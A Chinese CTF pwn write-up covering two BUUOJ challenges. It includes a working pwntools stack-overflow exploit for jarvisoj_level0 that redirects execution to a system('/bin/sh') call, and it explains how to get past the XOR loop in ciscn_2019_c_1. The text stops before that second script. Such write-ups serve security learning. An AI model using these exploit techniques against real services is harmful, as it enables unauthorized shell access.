 # jarvisoj_level0

64位，动态链接，NX打开

![image-20220313005833969](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852395.png)

vulnerable函数造成栈溢出

![image-20220313010249742](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852633.png)

![image-20220313010253924](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852968.png)

函数中调用过system函数

![image-20220313010329187](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852612.png)

而且有/bin/sh

![image-20220313010429943](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852095.png)

编写脚本

```python
from pwn import *
io = remote("node4.buuoj.cn",25521)

ret_addr = 0x400431
system_addr = 0x0040059A
payload = cyclic(0x88) + p64(ret_addr) + p64(system_addr)

io.sendline(payload)
io.interactive()
```

# *ciscn_2019_c_1

64位，动态链接，NX打开

![image-20220313010715853](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852183.png)

begin函数只是起到打印作用，encrypy是攻击函数

![image-20220313011056641](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852228.png)

while循里有s[x] ^= 0xFu系列，这样导致输入的s的数值发生了变化，因此输入的payload就会改变。

为了避免执行循环，要在payload最前面加入‘\0’，这和strlen函数有关，strlen函数遇到‘\0’就会停止，这样值为0.，而v0 = x，x为无符号整型大于等于0，所以判断为真就能避免执行while循环。

![image-20220313011103412](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852208.png)

编写脚本
